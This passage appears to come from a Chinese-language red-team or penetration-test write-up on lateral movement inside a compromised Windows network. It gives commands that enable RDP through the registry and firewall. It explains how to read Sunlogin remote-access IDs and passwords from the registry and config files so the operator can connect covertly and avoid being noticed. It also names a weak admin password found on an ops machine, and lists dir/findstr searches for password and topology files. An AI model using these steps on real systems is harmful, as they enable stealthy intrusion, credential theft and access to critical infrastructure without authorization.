    
    
    #执行以下命令操作注册表来开启机器3389远程桌面服务  REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /v fDenyTSConnections /t REG\_DWORD /d 00000000 /f    
    #使用以下命令添加防火墙放行策略  netsh firewall add portopening protocol = TCP port = 3389 name = rdp

但如果是正常办公时间，贸然登录过去会很容易引起对方的发现，若进程中有sunlogin进程，可以读取识别码和验证码，通过向日葵连接相对比较隐蔽  

![](https://gitee.com/fuli009/images/raw/master/public/20220926092113.png)

  

 **注册表读取配置信息：**

  *   *   *   *   *   *   *   *   * 

    
    
     reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginInfo  reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginGreenInfo    
    向日葵默认配置文件路径:  安装版：C:\\Program Files\\Oray\\SunLogin\\SunloginClient\\config.ini  便携版：C:\\ProgramData\\Oray\\SunloginClient\\config.ini  本机验证码参数：encry\_pwd  本机识别码参数：fastcode(去掉开头字母)  sunlogincode：判断用户是否登录状态

 **读注册表：**  

![](https://gitee.com/fuli009/images/raw/master/public/20220926092114.png)

  

 **读默认配置文件：**
fastcode去掉前面的数字k为本机识别码`278263893`![](https://gitee.com/fuli009/images/raw/master/public/20220926092116.png)

  

使用脚本进行解密获得本机验证码![](https://gitee.com/fuli009/images/raw/master/public/20220926092118.png)

  

 **运维机**

横向的时候优先拿运维机，一般运维机存储着大量的账号密码信息，比如这次无意中发现的运维机器使用的是弱口令`administrator/111111`

  
另外还可以通过cs插件查看机器历史登录IP对运维人员进行锁定  

拿下后可通过命令行快速收集服务器、网络拓扑、密码本、公司信息等重要文件。  

  *   *   *   *   *   *   *   *   *   * 

    
    
    dir /a /s /b d:\\" \*.txt"   dir /a /s /b d:\\"\* pass \*"   dir /a /s /b d:\\"\* login \*"   dir /a /s /b d:\\"\* user \*"  dir /a /s /b c:\\password.txt  dir /a /s /b c:\\\*.conf \*.ini\* .inc\* .config   dir /a /s /b c:\\conf.\* config.\*   dir /a /s /b c:\\\*.txt \*.xls\* .xlsx\* .docx | findstr "拓扑"  dir /a /s /b c:\\\*.conf \*.ini\* .inc\* .config | findstr "运维"  dir /a /s /b c:\\\*.txt \*.xls\* .xlsx\* .docx | findstr "密码" >C:\\Users\\1.txt

最后收集了一堆密码本，可登录到各重要系统：  

  
H3C堡垒机![](https://gitee.com/fuli009/images/raw/master/public/20220926092120.png)

  
